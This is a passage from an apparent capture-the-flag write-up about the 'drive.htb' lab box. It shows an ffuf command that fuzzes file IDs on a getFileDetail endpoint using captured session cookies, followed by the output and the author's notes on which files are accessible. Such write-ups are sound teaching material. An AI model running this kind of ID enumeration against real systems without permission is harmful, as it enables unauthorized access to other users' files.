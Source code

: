 ```

```

#### Files

I can do the same attack on files:

```

oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 336ms]
99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 335ms]
98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 347ms]
101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 327ms]
100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 357ms]
112                     [Status: 200, Size: 5053, Words: 1062, Lines: 167, Duration: 334ms]
:: Progress: [500/500] :: Job [1/1] :: 149 req/sec :: Duration: [0:00:03] :: Errors: 0 ::

```

There are two files I can access. 112 is the test file I uploaded, and 100 is the “Welcome\_to\_Doodle\_Grive!” file owned by admin. There are four other files that I can’t access - 79, 98, 99, and 101.

It’s worth noting that while I would expect an API endpoint like `/[id]/block/` to set the reserved attribute to my user id, that actually returns a page:

![image-20240213170947570](/img/image-20240213170947570.png)
